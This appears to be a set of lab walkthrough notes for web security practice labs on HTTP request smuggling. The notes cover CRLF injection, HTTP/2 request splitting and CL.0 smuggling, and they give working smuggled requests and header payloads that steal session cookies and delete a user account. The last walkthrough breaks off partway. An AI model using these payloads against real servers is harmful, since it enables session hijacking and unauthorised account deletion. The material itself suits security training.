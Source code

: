Use the search function a few times and observe it records your recent history. Send the most recent POST to repeater

In the inspector "request headers" add the header "foo":"bar\r\n" and add as body in the new interface 
```text
0

SMUGGLED
```
 and see every 2nd request, you get a 404. Change the body to:
 ```text
 0

POST / HTTP/1.1
Host: 0ac400e8036dcc5583fd7373002f00af.web-security-academy.net
Cookie: session=U823iLxOWfIibg39U7RekrUnuwrHwO2L
Content-Length: 900

search=x
 ```
Send the request once, and then refresh the web on the browser. Try to timing it, or at least give a few seconds, because you want to intercept the victim's request. You should see an entire GET request with the cookie.

Send a GET to the / with the stolen cookies, and the lab is solved.

---
### HTTP/2 request splitting via CRLF injection

Send a GET / request to repeater. switch to HTTP/2
Add a new header "foo":"`bar\r\n \r\n GET /x HTTP/1.1\r\n Host: YOUR-LAB-ID.web-security-academy.net`"

Send the request a few times with some seconds in between, until you intercept the 302 with admin session cookie.

Delete carlos account /admin/delete?username=carlos with that cookie

---
### CL.0 request smuggling

If you try to go to the admin panel, you see "Path /admin is blocked"

Create a tab group with two posts to GET /

First one, is this:
```text
POST /resources/images/blog.svg HTTP/1.1 
Host: YOUR-LAB-ID.web-security-academy.net 
Cookie: session=YOUR-SESSION-COOKIE 
Connection: keep-alive 
Content-Length: CORRECT 

GET /admin/delete?username=carlos HTTP/1.1 
Foo: x
```
